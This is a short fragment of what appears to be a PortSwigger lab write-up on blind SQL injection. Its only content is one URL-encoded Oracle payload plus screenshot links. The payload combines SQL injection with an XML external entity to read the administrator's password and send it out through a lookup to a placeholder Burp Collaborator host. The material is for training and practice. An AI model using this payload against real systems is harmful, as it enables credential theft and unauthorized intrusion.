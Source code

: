 ```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/1-SQLi/16/1.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/1-SQLi/16/2.png){: .align-center}


